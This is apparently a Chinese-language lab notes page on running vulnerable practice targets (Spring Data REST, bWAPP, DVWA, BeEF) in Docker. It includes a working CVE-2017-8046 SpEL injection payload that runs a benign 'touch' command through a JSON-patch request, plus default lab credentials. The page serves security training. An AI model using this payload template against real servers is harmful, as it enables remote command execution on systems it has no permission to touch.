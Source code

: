 ### 框架安全问题
1. Spring Data Rest
    0. 漏洞编码: CVE-2017-8046
    1. 靶机下载/运行
        ```
        docker pull registry.cn-shanghai.aliyuncs.com/yhskc/spring-data-rest
        docker run -d -p 8795:8080 registry.cn-shanghai.aliyuncs.com/yhskc/spring-data-rest
        ```
    2. 访问靶机地址
        1. 检查访问地址
            ```
                localhost:8795/customers
            ```
        2. 正常访问
            ```
                curl -X -POST -H "Content-Type:application/json-patch+json" -d '{"fristname":"kenny","lastname": "he"}' http://localhost:8795/customers
            ```
        3. 漏洞访问
            - Brut Site 修改请求报文
                1. 修改参数为PATCH
                2. 修改Content-Type为application/json-patch+json
                3. 修改payload，其中数字为ASCII码
                    ```
                        [{"op":"replace","path":"T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{116,111,117,99,104,32,47,116,109,112,47,115,117,99,99,101,115,115}))/lastname","value":"test"}]
                   ```
### Struts2 安全漏洞


### 工具
####  BWApp 漏洞环境
1. BWApp 漏洞环境安装
    ```
    docker pull registry.cn-shanghai.aliyuncs.com/yhskc/bwapp
    docker run -d -p 8796:80 --name=bwapp registry.cn-shanghai.aliyuncs.com/yhskc/bwapp
    ```
2. 访问地址，进行漏洞环境数据库安装
```
http://localhost:8796/install.php
```
#### DVWA 靶机
1. DVWA 靶机环境安装(账号:admin/密码:password)
```
docker pull registry.cn-shanghai.aliyuncs.com/yhskc/dvwa
docker run -d -p 8797:80 registry.cn-shanghai.aliyuncs.com/yhskc/dvwa
```
### 漏洞利用工具
#### XSS 漏洞利用工具
1. BeEF(自带JS脚本、后台界面): 账号/密码 sec
    ```
        docker run -d -p 3000:3000 --name=beef registry.cn-shanghai.aliyuncs.com/yhskc/beef
    ```
### FUZZ